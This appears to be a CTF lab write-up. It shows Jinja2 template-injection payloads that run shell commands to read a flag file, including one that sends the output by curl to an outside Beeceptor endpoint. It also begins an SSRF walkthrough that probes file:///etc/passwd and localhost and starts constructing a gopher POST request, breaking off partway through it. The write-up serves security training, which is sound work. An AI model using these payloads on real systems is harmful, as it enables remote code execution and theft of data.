 #### Easy way
{% raw %}
payload: `{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("cat /th1s_15_fl4ggggggg").read()}}`
{% endraw %}
![](https://i.imgur.com/dRLbk0J.png)

#### Need Tool way - [Beeceptor](https://beeceptor.com/)
`Beeceptor` will catch our result from `curl`. 
<font color="FF0000">It'll execute `cat /th1s_15_fl4ggggggg` first and the result will be sent to `Beeceptor` as attached data by `curl`.</font>
Payload: 
{% raw %}
```!
{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('curl {Beeceptor URL} -d "`cat /th1s_15_fl4ggggggg`"')}}
```
{% endraw %}
![](https://i.imgur.com/PQ39MMI.png)

## Lab-Preview Card
Flag: `FLAG{gopher://http_post}`

### 解題流程與思路
When you see a preview function, then it may have SSRF problem.
1. Test it
`file:///etc/passwd` or `http://127.0.0.1`
![](https://i.imgur.com/NKbIlDT.png)

2. Analyze `flag.php`
   ![](https://i.imgur.com/OGo7biu.png)
    :::spoiler source code
    ```php=
    <?php
    if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') die("Only for localhost user.");
    ?>
    <form action="/flag.php" method="post">
        Do you want the FLAG? <input type="text" name="givemeflag" value="no">
        <input type="submit">
    </form>
    <?php
    if (isset($_POST['givemeflag']) && $_POST['givemeflag'] === 'yes')
        echo "FLAG:", getenv('FLAG');
    ```
    :::
    If you want flag, you need visit `/flag.php` as localhost and send a form data with parameter `givemeflag`.
3. Construct package - <font color="FF0000">**gopher**</font>
    ```!
    POST /flag.php HTTP/1.1
    Host: 127.0.0.1
    Content-Length: 14
    Content-Type: application/x-www-form-urlencoded
    